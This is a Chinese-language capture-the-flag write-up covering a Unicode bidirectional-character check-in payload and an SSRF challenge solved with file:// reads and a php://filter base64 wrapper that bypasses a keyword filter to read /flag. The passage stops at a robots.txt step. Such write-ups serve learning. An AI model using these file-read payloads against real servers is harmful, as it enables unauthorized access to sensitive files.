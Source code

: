 ##  checkin

考点：Unicode的特殊字符导致复制字符很奇怪



![image-20220630171440674](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/image-20220630171440674.png)



复制到vscode可以看到unicode字符

直接上payload

```
?ahahahaha=jitanglailo&%E2%80%AE%E2%81%A6Ugeiwo%E2%81%A9%E2%81%A6cuishiyuan=%E2%80%AE%E2%81%A6 Flag!%E2%81%A9%E2%81%A6N1SACTF
```

这个题意义不大。

##  easyssrf

直接file://协议读

![image-20220630200831160](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/image-20220630200831160.png)

然后file://fl4g

![image-20220630200854543](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/image-20220630200854543.png)

访问ha1x1ux1u.php

```php
<?php

highlight_file(__FILE__);
error_reporting(0);

$file = $_GET["file"];
if (stristr($file, "file")){
  die("你败了.");
}

//flag in /flag
echo file_get_contents($file);
```

一个filter伪协议读取文件内容

```
php://filter/read=convert.base64-encode/resource=/flag
```

## level-up

第一步：robots.txt
